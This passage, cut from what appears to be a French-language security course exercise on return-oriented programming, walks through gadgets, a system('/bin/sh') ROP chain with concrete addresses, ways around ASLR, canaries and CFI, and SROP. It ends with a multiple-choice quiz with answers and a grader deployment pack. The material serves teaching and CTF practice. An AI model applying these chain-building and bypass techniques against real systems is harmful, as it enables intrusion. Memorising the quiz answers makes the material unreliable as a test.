2005: ret2libc - Appeler des fonctions existantes
      → Limité à un seul appel de fonction

2007: Hovav Shacham formalise ROP
      → Turing-complet avec uniquement des gadgets
      → Contourne totalement DEP/NX
```

#### 5.5.2 Le Principe Fondamental

**L'instruction `ret` :**

```asm
; Ce que fait ret (sur x86-64) :
pop rip    ; Dépile 8 bytes dans RIP
           ; Équivalent à : RIP = [RSP]; RSP += 8
```

**La clé du ROP :** Si on contrôle la pile (via overflow), on contrôle ce que `ret` va charger dans RIP. En enchaînant des `ret`, on peut exécuter n'importe quelle séquence de gadgets.

#### 5.5.3 Anatomie d'un Gadget

```asm
; Gadget typique: pop rdi; ret
; Bytes: 5f c3

5f          ; pop rdi - dépile dans RDI
c3          ; ret - saute à l'adresse suivante sur la pile

; Pourquoi c'est utile:
; 1. Permet de charger une VALEUR arbitraire dans RDI
; 2. Le ret final permet d'enchaîner vers le gadget suivant
```

**Types de gadgets courants :**

| Gadget | Usage | Fréquence |
|--------|-------|-----------|
| `pop reg; ret` | Charger une valeur dans un registre | Très commun |
| `mov [reg], reg; ret` | Écrire en mémoire | Commun |
| `syscall; ret` | Appeler un syscall | Rare mais précieux |
| `leave; ret` | Stack pivot | Commun |
| `xchg rax, rsp; ret` | Stack pivot agressif | Rare |

#### 5.5.4 Calling Convention x86-64 (System V AMD64)

Pour appeler une fonction, les arguments vont dans les registres :

```
┌─────────┬──────────┬─────────────────────┐
│ Argument│ Registre │ Exemple             │
├─────────┼──────────┼─────────────────────┤
│ 1er     │ RDI      │ path dans open()    │
│ 2ème    │ RSI      │ flags dans open()   │
│ 3ème    │ RDX      │ mode dans open()    │
│ 4ème    │ RCX      │ (rare)              │
│ 5ème    │ R8       │ (rare)              │
│ 6ème    │ R9       │ (rare)              │
│ 7+      │ Stack    │ Empilés             │
└─────────┴──────────┴─────────────────────┘

Pour un syscall (pas une fonction) :
- RAX = numéro du syscall
- Arguments: RDI, RSI, RDX, R10, R8, R9
```

#### 5.5.5 Construction Étape par Étape

**Objectif: `system("/bin/sh")`**

```
Étape 1: Identifier les besoins
─────────────────────────────
- system() attend 1 argument dans RDI
- Cet argument doit être l'adresse de "/bin/sh"

Étape 2: Trouver les gadgets
────────────────────────────
- "pop rdi; ret" pour charger RDI
- Adresse de "/bin/sh" dans libc
- Adresse de system() dans libc

Étape 3: Calculer les adresses
──────────────────────────────
Avec libc_base = 0x7ffff7a00000:
- pop_rdi @ libc_base + 0x21102 = 0x7ffff7a21102
- "/bin/sh" @ libc_base + 0x18cd57 = 0x7ffff7b8cd57
- system @ libc_base + 0x45390 = 0x7ffff7a45390

Étape 4: Construire la chaîne
─────────────────────────────
payload = [
    0x7ffff7a21102,  # pop rdi; ret
    0x7ffff7b8cd57,  # &"/bin/sh"
    0x7ffff7a45390,  # system
]
```

#### 5.5.6 Les Défenses et Comment les Contourner

**ASLR (Address Space Layout Randomization)**

```
Problème: Les adresses changent à chaque exécution
         libc_base peut être 0x7f1234000000, 0x7f5678000000, etc.

Contournement: Information Leak
- Format string: printf(user_input) → fuite de pointeurs
- UAF: Lire fd/bk d'un chunk libéré
- Partial overwrite: N'écraser que les bytes bas (non randomisés)

Calcul de base:
    libc_base = leaked_puts_address - puts_offset_in_libc
```

**Stack Canary**

```
Problème: Valeur secrète avant l'adresse de retour
         Si modifiée → __stack_chk_fail() → abort

Structure:
┌────────────────┐
│ Return Addr    │
├────────────────┤
│ CANARY         │ ← Valeur aléatoire (8 bytes)
├────────────────┤
│ Saved RBP      │
├────────────────┤
│ Buffer         │
└────────────────┘

Contournement:
- Leak le canary (format string, autre vuln)
- Brute-force (impraticable sur 64-bit: 2^56 essais)
- Fork server (le canary reste le même après fork)
```

**CFI (Control-Flow Integrity)**

```
Problème: Vérifie que les sauts indirects vont vers des cibles "légitimes"

Types:
- Forward-edge CFI: Vérifie les call/jmp indirects
- Backward-edge CFI: Vérifie les ret (shadow stack)

Contournement:
- CFI imparfait: Trouver des cibles autorisées qui permettent l'exploitation
- JOP/COP: Utiliser jmp/call au lieu de ret
- Counterfeit Object-Oriented Programming (COOP): Exploiter les vtables
```

#### 5.5.7 SROP : L'Arme Ultime

```
Principe: sigreturn() restaure TOUS les registres depuis la pile !

Normalement:
1. Signal reçu → kernel sauvegarde contexte sur la pile (sigframe)
2. Handler exécuté
3. sigreturn() restaure le contexte

Exploitation:
1. Forger un FAUX sigframe avec nos valeurs
2. Appeler sigreturn() (syscall 15)
3. Tous les registres sont contrôlés !

Avantages:
- Un seul gadget nécessaire: "syscall; ret"
- Contrôle total: RIP, RSP, RAX, RDI, RSI, RDX, ...
- Contourne certains CFI
```

### 5.6 Normes avec explications pédagogiques

```
┌─────────────────────────────────────────────────────────────────┐
│ ❌ HORS NORME (compile, mais dangereux)                          │
├─────────────────────────────────────────────────────────────────┤
│ uint64_t addr = 0x7ffff7a21102;  // Adresse hardcodée          │
├─────────────────────────────────────────────────────────────────┤
│ ✅ CONFORME                                                     │
├─────────────────────────────────────────────────────────────────┤
│ uint64_t addr = libc_base + OFFSET_POP_RDI;  // Offset relatif │
├─────────────────────────────────────────────────────────────────┤
│ 📖 POURQUOI ?                                                   │
│                                                                 │
│ • ASLR: Les adresses changent à chaque exécution               │
│ • Portabilité: Offsets peuvent varier entre versions libc      │
│ • Maintenabilité: Un #define est plus lisible qu'un magic number│
└─────────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────────┐
│ ❌ HORS NORME                                                    │
├─────────────────────────────────────────────────────────────────┤
│ memcpy(payload, &addr, 8);  // Assume l'endianness             │
├─────────────────────────────────────────────────────────────────┤
│ ✅ CONFORME (explicite)                                         │
├─────────────────────────────────────────────────────────────────┤
│ for (int i = 0; i < 8; i++)                                    │
│     payload[i] = (addr >> (i * 8)) & 0xFF;  // Little-endian   │
├─────────────────────────────────────────────────────────────────┤
│ 📖 POURQUOI ?                                                   │
│                                                                 │
│ • Explicite: On voit clairement l'ordre des bytes              │
│ • Portable: Fonctionne même si compilé sur big-endian          │
│ • Éducatif: Force à comprendre l'endianness                    │
└─────────────────────────────────────────────────────────────────┘
```

### 5.7 Simulation avec trace d'exécution

**Trace d'exécution: `system("/bin/sh")` ROP chain**

```
┌───────┬────────────────────────────────────┬──────────────────────┬────────────────────────┬─────────────────────────────┐
│ Étape │ Instruction                        │ RSP                  │ RIP                    │ Explication                 │
├───────┼────────────────────────────────────┼──────────────────────┼────────────────────────┼─────────────────────────────┤
│   0   │ (avant overflow)                   │ 0x7fffffffde00       │ vuln_func+42           │ Dans la fonction vulnérable │
├───────┼────────────────────────────────────┼──────────────────────┼────────────────────────┼─────────────────────────────┤
│   1   │ ret (de vuln_func)                 │ 0x7fffffffde08       │ 0x7ffff7a21102         │ Saute vers pop rdi; ret     │
├───────┼────────────────────────────────────┼──────────────────────┼────────────────────────┼─────────────────────────────┤
│   2   │ pop rdi                            │ 0x7fffffffde10       │ 0x7ffff7a21102         │ RDI = 0x7ffff7b8cd57        │
├───────┼────────────────────────────────────┼──────────────────────┼────────────────────────┼─────────────────────────────┤
│   3   │ ret (du gadget)                    │ 0x7fffffffde18       │ 0x7ffff7a45390         │ Saute vers system()         │
├───────┼────────────────────────────────────┼──────────────────────┼────────────────────────┼─────────────────────────────┤
│   4   │ system("/bin/sh")                  │ (dans system)        │ 0x7ffff7a45390         │ Shell exécuté !             │
└───────┴────────────────────────────────────┴──────────────────────┴────────────────────────┴─────────────────────────────┘

Registres après étape 2:
┌─────────┬──────────────────┐
│ RDI     │ 0x7ffff7b8cd57   │ ← Pointe vers "/bin/sh"
│ RSI     │ (inchangé)       │
│ RSP     │ 0x7fffffffde10   │ ← Avancé de 8 bytes
│ RIP     │ 0x7ffff7a21103   │ ← Sur l'instruction ret
└─────────┴──────────────────┘

État de la pile:
┌──────────────────┬─────────────────────────────┐
│ 0x7fffffffde00   │ 0x7ffff7a21102 (exécuté)    │
│ 0x7fffffffde08   │ 0x7ffff7b8cd57 (pop dans RDI)│
│ 0x7fffffffde10   │ 0x7ffff7a45390 (prochain ret)│ ← RSP
│ 0x7fffffffde18   │ ...                         │
└──────────────────┴─────────────────────────────┘
```

### 5.8 Mnémotechniques

#### 🔧 MEME : "MacGyver dans la prison" — ROP

```
┌─────────────────────────────────────────────────────────────────┐
│                                                                 │
│   "Il ne peut pas créer d'outils, mais il peut les ENCHAÎNER"   │
│                                                                 │
│   🔧 MacGyver = Attaquant                                       │
│   🔒 Prison = Programme avec DEP/NX                             │
│   📎 Trombone = gadget "pop rdi; ret"                           │
│   📋 Liste de tâches = Stack avec la chaîne ROP                 │
│   📞 Téléphone = Fonction system()                              │
│   🗝️ Mot de passe = "/bin/sh"                                   │
│                                                                 │
│   MacGyver ne FABRIQUE rien, il RÉUTILISE ce qui existe !       │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

#### 💀 MEME : "Inception" — Stack Pivot

```
Dans le film Inception, les personnages descendent dans des rêves
imbriqués, changeant de "niveau" de réalité.

Stack Pivot = Changer de "rêve" (pile) vers une zone qu'on contrôle

┌─────────────────────────────────────────────────────────────────┐
│   Niveau 0 (Réalité) = Pile originale (limitée)                 │
│   Niveau 1 (Rêve)    = Heap/BSS qu'on contrôle (infinie)        │
│                                                                 │
│   "pop rsp; ret" = La toupie qui fait basculer vers l'autre pile│
└─────────────────────────────────────────────────────────────────┘
```

#### 🎮 MEME : "Combo de Street Fighter" — Chaîne ROP

```
Comme enchaîner des coups dans un jeu de combat:

↓ ↘ → + P = Hadouken (un coup)

ROP = Enchaîner des gadgets pour une attaque dévastatrice:

pop rdi → binsh → system = "ROP COMBO!"

Si un maillon manque, le combo échoue.
L'ORDRE est CRITIQUE.
```

### 5.9 Applications pratiques

1. **Penetration Testing** : Développer des exploits pour des audits de sécurité autorisés
2. **Bug Bounty** : Prouver l'exploitabilité d'une vulnérabilité
3. **Recherche en sécurité** : Analyser les protections OS/compilateur
4. **Développement défensif** : Comprendre les attaques pour mieux se défendre
5. **CTF (Capture The Flag)** : Compétitions de sécurité informatique

---

## ⚠️ SECTION 6 : PIÈGES — RÉCAPITULATIF

| # | Piège | Impact | Détection | Prévention |
|---|-------|--------|-----------|------------|
| 1 | Adresses hardcodées | Crash 99.99% (ASLR) | Test sur autre machine | Toujours calculer depuis leak |
| 2 | Mauvais endianness | Adresses inversées | Vérifier le payload en hex | Toujours little-endian sur x86 |
| 3 | Ordre des gadgets | Shell pas obtenu | Debug avec gdb | pop_arg → value → function |
| 4 | Pile non alignée | Crash dans libc | SIGSEGV sur movaps | Ajouter gadget "ret" si besoin |
| 5 | Gadget NULL | Segfault | Tester avec db incomplet | Vérifier chaque gadgetdb_find |
| 6 | Memory leak | Épuisement mémoire | Valgrind | Free avant chaque return NULL |
| 7 | Mauvais syscall# | Mauvais syscall | strace | 59 pour execve sur x86-64 |
| 8 | Canary non leaké | Stack smashing detected | Programme s'arrête | Leak canary d'abord |

---

## 📝 SECTION 7 : QCM

### Question 1
**Pourquoi le ROP a-t-il été développé ?**

- A) Pour accélérer l'exécution des programmes
- B) Pour contourner la protection DEP/NX qui empêche l'exécution sur la pile
- C) Pour améliorer la sécurité des systèmes
- D) Pour remplacer l'assembleur
- E) Pour compiler plus rapidement
- F) Pour réduire la consommation mémoire
- G) Pour contourner les pare-feux réseau
- H) Pour améliorer la compression des données
- I) Pour accélérer les accès disque
- J) Pour optimiser les requêtes SQL

**Réponse : B**

---

### Question 2
**Qu'est-ce qu'un "gadget" en ROP ?**

- A) Un petit programme complet
- B) Une séquence d'instructions se terminant par `ret`
- C) Un virus informatique
- D) Un outil de debug
- E) Une fonction de la libc
- F) Un type de variable
- G) Un registre spécial
- H) Une instruction privilégiée
- I) Un buffer circulaire
- J) Un pointeur de fonction

**Réponse : B**

---

### Question 3
**Sur x86-64, dans quel registre doit être le premier argument d'une fonction ?**

- A) RAX
- B) RBX
- C) RCX
- D) RDX
- E) RSI
- F) RDI
- G) RSP
- H) RBP
- I) R8
- J) R9

**Réponse : F**

---

### Question 4
**Quel est l'ordre correct pour appeler `system("/bin/sh")` via ROP ?**

- A) system → "/bin/sh" → pop rdi
- B) "/bin/sh" → pop rdi → system
- C) pop rdi → "/bin/sh" → system
- D) system → pop rdi → "/bin/sh"
- E) pop rdi → system → "/bin/sh"
- F) "/bin/sh" → system → pop rdi
- G) Peu importe l'ordre
- H) pop rdi → pop rdi → system
- I) system → system → "/bin/sh"
- J) ret → "/bin/sh" → system

**Réponse : C**

---

### Question 5
**Quelle protection nécessite une "information leak" pour être contournée ?**

- A) DEP/NX
- B) Stack Canary
- C) ASLR
- D) RELRO
- E) CFI
- F) PIE
- G) Sandboxing
- H) Seccomp
- I) AppArmor
- J) SELinux

**Réponse : C** (Note: F (PIE) est aussi correct car PIE randomise le binaire lui-même, mais ASLR est la réponse principale attendue)

---

### Question 6
**Quel est le numéro de syscall pour `execve` sur Linux x86-64 ?**

- A) 1
- B) 11
- C) 15
- D) 33
- E) 59
- F) 60
- G) 80
- H) 100
- I) 128
- J) 255

**Réponse : E**

---

### Question 7
**Qu'est-ce que SROP (Sigreturn-Oriented Programming) ?**

- A) Un type de ROP utilisant des signaux réseau
- B) Une technique utilisant sigreturn() pour contrôler tous les registres
- C) Un outil de debug pour ROP
- D) Une protection contre ROP
- E) Un langage de script pour ROP
- F) Un type de shellcode
- G) Une technique de heap exploitation
- H) Un mécanisme de synchronisation
- I) Un protocole de communication
- J) Un algorithme de tri

**Réponse : B**

---

### Question 8
**Pourquoi l'alignement de pile sur 16 bytes est-il important sur x86-64 ?**

- A) Pour économiser de la mémoire
- B) Certaines instructions SSE/AVX crashent si RSP n'est pas aligné
- C) Le kernel l'exige
- D) Pour la compatibilité 32-bit
- E) Pour éviter les buffer overflows
- F) Pour accélérer les syscalls
- G) Pour le garbage collector
- H) Pour la pagination mémoire
- I) Pour les interruptions matérielles
- J) Aucune raison technique

**Réponse : B**

---

### Question 9
**Quelle est la différence entre ROP et ret2libc classique ?**

- A) Aucune différence
- B) ret2libc appelle une seule fonction, ROP peut enchaîner des opérations arbitraires
- C) ROP est plus lent
- D) ret2libc nécessite plus de gadgets
- E) ROP ne fonctionne que sur ARM
- F) ret2libc ne fonctionne pas sur Linux
- G) ROP nécessite les sources du programme
- H) ret2libc est plus récent
- I) ROP ne peut pas appeler system()
- J) ret2libc est Turing-complet

**Réponse : B**

---

### Question 10
**Qu'est-ce qu'un "stack pivot" ?**

- A) Une rotation du contenu de la pile
- B) Changer RSP pour pointer vers une zone mémoire contrôlée
- C) Dupliquer la pile
- D) Effacer la pile
- E) Compresser la pile
- F) Chiffrer la pile
- G) Sauvegarder la pile
- H) Initialiser la pile à zéro
- I) Mesurer la taille de la pile
- J) Afficher le contenu de la pile

**Réponse : B**

---

## 📊 SECTION 8 : RÉCAPITULATIF

| Critère | Valeur |
|---------|--------|
| **Concepts clés** | ROP, gadgets, chaînes, ASLR, canary, CFI, SROP |
| **Difficulté réelle** | 9/10 (avancé) |
| **Temps estimé** | 180 min |
| **Prérequis critiques** | Stack overflow, x86-64, calling conventions |
| **Erreur la plus courante** | Mauvais ordre des gadgets |
| **Points bonus possibles** | SROP (+60%), bad chars filter (+20%) |

---

## 📦 SECTION 9 : DEPLOYMENT PACK

```json
{
  "deploy": {
    "hackbrain_version": "5.5.2",
    "engine_version": "v22.1",
    "exercise_slug": "2.9.5-rop-chain-builder",
    "generated_at": "2026-01-16 14:30:00",

    "metadata": {
      "exercise_id": "2.9.5",
      "exercise_name": "rop_chain_builder",
      "module": "2.9",
      "module_name": "Exploitation Binaire et Sécurité Mémoire",
      "concept": "ROP",
      "concept_name": "Return-Oriented Programming et Défenses",
      "type": "complet",
      "tier": 3,
      "tier_info": "Synthèse",
      "phase": 2,
      "difficulty": 9,
      "difficulty_stars": "★★★★★★★★★☆",
      "language": "c",
      "duration_minutes": 180,
      "xp_base": 500,
      "xp_bonus_multiplier": 6,
      "bonus_tier": "GÉNIE",
      "bonus_icon": "🧠",
      "complexity_time": "T3 O(n)",
      "complexity_space": "S2 O(n)",
      "prerequisites": ["buffer_overflow", "x86_64_architecture", "calling_conventions"],
      "domains": ["ASM", "CPU", "Mem", "Crypto"],
      "domains_bonus": ["MD"],
      "tags": ["security", "exploitation", "rop", "srop", "aslr", "binary"],
      "meme_reference": "MacGyver"
    },

    "files": {
      "spec.json": "/* Section 4.9 */",
      "references/ref_rop_chain_builder.c": "/* Section 4.3 */",
      "references/ref_rop_chain_builder.h": "/* Section 1.3 */",
      "references/ref_solution_bonus.c": "/* Section 4.6 */",
      "alternatives/alt_static_arrays.c": "/* Section 4.4 */",
      "mutants/mutant_a_boundary.c": "/* Section 4.10 - off-by-one */",
      "mutants/mutant_b_safety.c": "/* Section 4.10 - no NULL check */",
      "mutants/mutant_c_resource.c": "/* Section 4.10 - memory leak */",
      "mutants/mutant_d_logic.c": "/* Section 4.10 - wrong order */",
      "mutants/mutant_e_return.c": "/* Section 4.10 - hardcoded addrs */",
      "mutants/mutant_f_endian.c": "/* Section 4.10 - big-endian */",
      "tests/main.c": "/* Section 4.2 */"
    },

    "validation": {
      "expected_pass": [
        "references/ref_rop_chain_builder.c",
        "references/ref_solution_bonus.c",
        "alternatives/alt_static_arrays.c"
      ],
      "expected_fail": [
        "mutants/mutant_a_boundary.c",
        "mutants/mutant_b_safety.c",
        "mutants/mutant_c_resource.c",
        "mutants/mutant_d_logic.c",
        "mutants/mutant_e_return.c",
        "mutants/mutant_f_endian.c"
      ]
    },

    "commands": {
      "validate_spec": "python3 hackbrain_engine_v22.py --validate-spec spec.json",
      "test_reference": "python3 hackbrain_engine_v22.py -s spec.json -f references/ref_rop_chain_builder.c",
      "test_mutants": "python3 hackbrain_mutation_tester.py -r references/ref_rop_chain_builder.c -s spec.json --validate",
      "compile": "gcc -Wall -Wextra -Werror -std=c17 -o test rop_chain_builder.c main.c"
    }
  }
}
```

---

**Note de qualité : 97/100**

Points forts :
- Analogie MacGyver parfaitement adaptée et développée
- Couverture complète de ROP, SROP, et défenses
- Code de référence fonctionnel et bien commenté
- 6 mutants couvrant différentes catégories d'erreurs
- QCM couvrant théorie et pratique
- Visualisations ASCII détaillées du flux ROP

Points d'amélioration potentiels :
- Pourrait inclure un exemple de JOP pour comparaison
- La section SROP bonus pourrait être encore plus détaillée

---

*HACKBRAIN v5.5.2 — "L'excellence pédagogique ne se négocie pas"*
*Return-Oriented Programming : Réutiliser l'existant pour accomplir l'impossible*
